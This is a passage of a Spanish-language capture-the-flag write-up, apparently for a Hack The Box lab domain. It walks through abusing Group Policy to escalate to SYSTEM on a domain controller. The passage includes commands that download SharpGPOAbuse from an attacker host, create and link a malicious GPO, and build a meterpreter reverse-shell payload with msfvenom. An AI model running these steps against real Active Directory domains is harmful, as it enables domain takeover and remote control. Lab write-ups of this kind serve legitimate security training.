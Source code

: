 En el objetivo:


```powershell
Invoke-WebRequest http://attacker-ip:11602/SharpGPOAbuse.exe -Outfile SharpGPOAbuse.exe
```

Con ello ejecutamos:


```bash
PS C:\Users\M.SchoolBus\Desktop> New-GPO -name "AbussingGPO"

DisplayName      : AbussingGPO
DomainName       : frizz.htb
Owner            : frizz\M.SchoolBus
Id               : 4e887bb3-30b2-468a-80e8-e599e309de21
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 9/1/2025 5:46:04 AM
ModificationTime : 9/1/2025 5:46:04 AM
UserVersion      :
ComputerVersion  :
WmiFilter        :

PS C:\Users\M.SchoolBus\Desktop> New-GPLINK -name "AbussingGPO" -target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB"

GpoId       : 4e887bb3-30b2-468a-80e8-e599e309de21
DisplayName : AbussingGPO
Enabled     : True
Enforced    : False
Target      : OU=Domain Controllers,DC=frizz,DC=htb
Order       : 2
```

Ahora una pequeña explicación de nuestro abuso, el usuario `M.SchoolBus` pertenece a un grupo que permite crear políticas en el dominio, al crear la GPO es propietario de ella, pero __cuando se aplica__ al _Domain Controller_ se ejecutan por el _servicio de cliente de directivas de grupo_ `gpsvc` (ejecutada por NT AUTHORITY\SYSTEM); por eso se suele abusar de ello para la ejecución con privilegios máximos. Finalmente, `SharpGPOAbuse` añade una tarea programada (tú la creaste, tú puedes 'añadir' lo que quieras) para ejecutar un programa o comando; __existen muchas más alternativas, como crear una cuenta y añadirla a admins__, __cambiar la contraseña del administrador de dominio__ (_esta cuenta tiene soporta 2 contraseñas de 'rotación'; así que un sólo cambio, no afectará totalmente las operaciones_) entre muchas otras alternativas!.

Entendiendo esto, ahora programamos una tarea programada para recibir nuestra shell con privilegios elevados (puedes hacerlo con cualquier método, por ejemplo, `metasploit`):

Primero creas el payload tipo `exe`

```bash
❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=Attacker-IP LPORT=PORT -f exe -o backup.exe
<SNIP>
❯ python3 -m http.server PORT
```

